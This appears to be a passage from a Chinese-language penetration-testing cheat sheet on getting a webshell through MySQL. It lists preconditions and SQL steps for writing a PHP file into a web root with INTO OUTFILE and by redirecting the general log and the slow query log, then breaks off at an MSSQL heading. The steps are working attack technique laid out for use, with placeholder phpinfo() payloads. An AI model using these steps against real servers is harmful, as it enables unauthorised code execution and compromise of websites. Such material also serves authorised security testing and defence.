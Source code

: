 ## Getshell

#### 直接写文件Getwebshell

**利用条件:**

- secure-file-priv参数为空或者为网站根路径
- 知道网站的绝对路径

**步骤:**

```mysql
select 'phpinfo();' into outfile 'c:/www/webshell.php'
```

#### 日志general_log Getshell

**利用条件:**

* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径

**步骤:**

```mysql
set global general_log='on';//开启日志记录
SET global general_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT 'phpinfo();';//该语句会被记录到日志中从而写入webshell
```

#### 慢日志slow_query_logGetshell

MySQL的慢查询日志是MySQL提供的一种日志记录,它用来记录在MySQL中响应时间超过阀值的语句,具体指运行时间超过long_query_time值的SQL,则会被记录到慢查询日志中.long_query_time的默认值为10,意思是运行10S以上的语句.默认情况下,Mysql数据库并不启动慢查询日志,需要我们手动来设置这个参数.

**利用条件:**

* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径

**步骤:**

```mysql
set global slow_query_log=1;//开启慢查询
set global slow_query_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT "phpinfo();"  or sleep(11);//使用sleep(11)使该语句记录到日志
```

## mysql8新增的表
#### information_schema.TABLESPACES_EXTENSIONS
它直接存储了数据库和数据表
## mssql
### 写入webshell
#### 利用条件

